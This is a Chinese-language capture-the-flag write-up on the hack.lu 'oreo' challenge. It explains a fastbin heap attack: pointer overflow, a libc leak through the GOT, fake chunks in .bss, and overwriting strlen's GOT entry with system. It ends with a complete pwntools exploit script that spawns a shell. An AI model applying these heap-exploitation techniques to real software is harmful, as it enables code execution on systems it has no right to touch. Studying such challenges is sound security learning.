 # fastbin原理：<br>
1.堆溢出修改堆块结构中指向下一个堆块的指针,指向伪造的chunk<br>
2.伪造chunk,为了绕过next_size,要保证伪造的chunk的下一个chunk的大小不能太大或者太小<br>
3.然后free这个伪造的chunk,然后malloc一个相同大小的chunk,达成对伪造chunk的读写<br>


## 这里使用hack.lu-oreo记录fastbin的学习小结
![menu](img/menu.png)
add-增加堆块（漏洞点：在dword_804A288+25(name)的地方读取了56个字节，但是总共只申请了0x38=56个字节，所以可以溢出）<br>
gan的结构体为<br>
```
struct{  
    char* description;
    char* name;
    gan* last_heap;
}gan
```
所以这里可以溢出到last_heap<br>

![add](img/add.PNG)<br><br>
show-展示堆块(漏洞点：打印堆块的是，由于可以溢出到last_heap，那么可以将last_heap修改成任意的got表地址，那么在打印堆块的时候，就会将got表地址里面的值当成description打印出来)<br>

![show](img/show.PNG)<br><br>

order-delete堆块(漏洞点:日常不置空)<br>
![delete](img/delete.PNG)<br><br>

leaveMessage(漏洞点：这个函数会往bss段写数据，但是他是往dword_804a2a8这个地址里面的值作为地址写数据，如果这个地址可以控制，那么就可以往任意地址写数据了)<br>
![message](img/message.PNG)<br><br>

## 利用思路<br>
1.泄露基址：利用add溢出使用函数got地址覆盖到last_heap，然后使用show函数打印出来<br>
2.伪造chunk：这里使用bss段也就是message所在的地方伪造chunk，message的起始是0x804a2a8中的值指向的0x804a2c0。可以通过观察发现，0x804a2a8-4是另外一个变量，是add的数量，所以伪造0x40的chunk，就需要add 40次。并且要过free时next_size的检测，所以要在bss段伪造两个chunk,只需要对第二个chunk的大小做一定的伪造即可<br>
3.利用message可以向0x804a2a8中保存的指向的地址写任意内容,如果不做任何修改，默认指向的是0x804a2c0。所以free我们伪造在bss段的chunk,在malloc的时候，可以获取0x804a2a8中的写权限，然后修改0x804a2a8中指向的地址，然后在使用message这个函数，向我们写入的地址中写入任何内容。所以我们可以将strlen_got放在0x804a2a8地址，然后通过message向strlen_got里面写入system_addr的地址，然后在后面调用strlen的时候，就会调用system。


##利用代码
```
from pwn import *

DEBUG=1
if DEBUG:
	context.log_level='debug'
	p=process('./oreo')
	gdb.attach(p,'b *0x80487b5')
else:
	p=remote()

def add(name, description):
	p.sendline('1')	
	p.sendline(name)
	p.sendline(description)


def show():
	p.sendline('2')

def delete():
	p.sendline('3')


def message(notice):
	p.sendline('4')
	p.sendline(notice)

p.readuntil('Exit')
add('a','a')
delete()



#leak free_addr in libc
free_got=0x804a238
payload=27*'A' + p32(free_got)
add(payload, 25*'b')
show()

p.recvuntil('Description: ')
p.recvuntil('Description: ')

free_in_libc=u32(p.recv(4))
success(hex(free_in_libc))

#create fake chunk
for i in range(0x40-2):
	add('a','a')

bss_addr=0x804a2a8
#chunk1
payload='a'*27+p32(bss_addr) 
add(payload,'n')
#chunk2
message('a'*0x1c + '\x00'*4 + 'a'*4 + p32(100))
delete()

#when the func of message write notice to bss_addr, it will write to the addr of what 0x804a2a8 point to 
strlen_got=0x804a250
add('b', p32(strlen_got))

libc=ELF('libc-2.23.so')
libc_base = free_in_libc-libc.symbols['free']
system_addr = libc_base + libc.symbols['system']

success(hex(system_addr))


message(p32(system_addr)+';/bin/sh')
p.interactive()


```
## 参考看雪的文章，自己分析了跟gdb，重新写了一遍脚本，感谢~
原文链接：https://bbs.pediy.com/thread-247214-1.htm

















